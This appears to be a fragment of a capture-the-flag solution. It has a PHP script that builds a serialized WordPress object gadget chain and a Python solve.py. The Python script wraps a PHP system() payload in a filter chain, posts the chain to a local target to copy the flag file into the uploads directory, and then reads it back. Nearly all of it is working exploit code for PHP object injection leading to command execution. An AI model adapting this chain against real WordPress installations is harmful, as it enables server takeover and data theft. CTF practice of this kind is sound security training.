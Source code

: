 ```php
    } 
}

$b = array("blockName" => "hehe");
$c = new WP_Block_Patterns_Registry($argv[1]);
$a = new WP_Block_List(array("class" => $b),"2",$c);
$d = new WP_HTML_Tag_Processor($a);
$e = new SecureTableGenerator($d);
echo base64_encode(serialize($e));

?>
```
* solve.py
```python
import requests
import subprocess

URL = "http://localhost/"

payload = '<?php system("cat /flag* / > /var/www/html/wp-content/uploads/huhu.txt");?>'

res = subprocess.run(['python3', 'php_filter_chain_generator.py', '--chain', payload], capture_output=True, text=True)
gadget = res.stdout.split('\n', 1)[1]

res = subprocess.run(['php', 'chain.php', gadget], capture_output=True, text=True)
b64_ser = res.stdout

def trigger():
    data = {
        'serialized_data':b64_ser, 
        'generate': 1
    }
    r = requests.post(URL, data=data)

def read_flag():
    r = requests.get(URL + "wp-content/uploads/huhu.txt")
    print(r.text)

trigger()
read_flag()
```